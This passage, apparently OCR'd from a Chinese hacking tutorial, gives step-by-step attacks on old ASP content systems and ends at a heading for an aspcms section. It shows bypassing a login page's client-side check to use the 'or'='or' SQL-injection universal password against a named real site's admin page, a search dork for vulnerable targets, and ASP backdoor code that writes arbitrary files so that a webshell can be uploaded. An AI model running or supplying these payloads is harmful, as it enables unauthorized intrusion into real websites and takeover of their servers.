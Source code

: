 {alert(‘请输入用户名’);

document.login.username.focus();

return false

}

if (document.login.password.value==”)

{alert(‘请输入密码’);

document.login.password.focus();

return false

}

}

</script>

注意：将以下段代码中的 “index.asp?action=chkadmin” 修改为 “http://www.hdminc.net/admin/admin_index.asp”

<form action=”index.asp?action=chkadmin” name=”login” method=”past” onsubmit=return checklogin();”>

最后保存打开，再用’or’=’or’登录时，系统已不再过滤，结果就能用万能密码登录进去了！


### 0x32 动力3.5拿shell

inurl:printpage.asp?ArticleID=

1.找到版权信息，把内容替换成：

版权所有 Copyright? 2003 <a href=’http://www.asp163.net’>动力空间</a>” ‘版权信息
if Request(“xiaoxin”)=”520″ then
dim allen,creat,text,thisline,path
if Request(“creat”)=”yes” then
Set fs = CreateObject(“Scripting.FileSystemObject”)
Set outfile=fs.CreateTextFile(server.mappath(Request(“path”)))
outfile.WriteLine Request(“text”)
Response.write “小新恭喜”
end if
Response.write “<form method=’POST’action='”&Request.ServerVariables(“URL”)&”?xiaoxin=520&creat=yes’>”
Response.write “<textarea name=’text’>”&thisline&”</textarea><br>”
Response.write “<input type=’text’ name=’path’ value='”&Request(“path”)&”‘>”
Response.write “<input name=’submit’ type=’submit’ value=’ok’ ></form>”
Response.end
end if
%>

2.然后保存，千万别跳转任何页面，直接在IE地址栏内将 admin/Admin_Login.asp 替换成 inc/config.asp?xiaoxin=520

3.成功后会进入一个像小马一样的页面，粘贴木马代码以及写上木马文件名即可拿到wshell，木马在inc目录。


### 0x33 aspcms
